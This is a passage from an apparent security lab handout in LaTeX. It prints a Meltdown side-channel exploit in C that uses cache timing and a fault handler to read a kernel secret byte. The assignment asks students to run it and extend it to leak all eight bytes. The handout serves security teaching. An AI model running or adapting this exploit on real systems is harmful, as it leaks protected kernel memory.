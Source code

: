 \begin{lstlisting}[caption=\texttt{MeltdownAttack.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
     addr = &array[i * 4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  int i, j, ret = 0;
  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }

  memset(scores, 0, sizeof(scores));
  flushSideChannel();
  
  // Retry 1000 times on the same address.
  for (i = 0; i < 1000; i++) {
    ret = pread(fd, NULL, 0, 0);
    if (ret < 0) {
      perror("pread");
      break;
    }
	
    // Flush the probing array
    for (j = 0; j < 256; j++) 
        _mm_clflush(&array[j * 4096 + DELTA]);

    if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(0xfb61b000); }

    reloadSideChannelImproved();
  }

  // Find the index with the highest score.
  int max = 0;
  for (i = 0; i < 256; i++) {
    if (scores[max] < scores[i]) max = i;
  }

  printf("The secret value is %d %c\n", max, max);
  printf("The number of hits is %d\n", scores[max]);

  return 0;
}
\end{lstlisting}


Please compile and run the code, and explain your observations. 
The code above only steals a one-byte secret from the kernel. The actual
secret placed in the kernel module has 8 bytes. You need to modify the above code
to get all the 8 bytes of the secret.


\section{Informe del Laboratorio}







\def\baselinestretch{1}





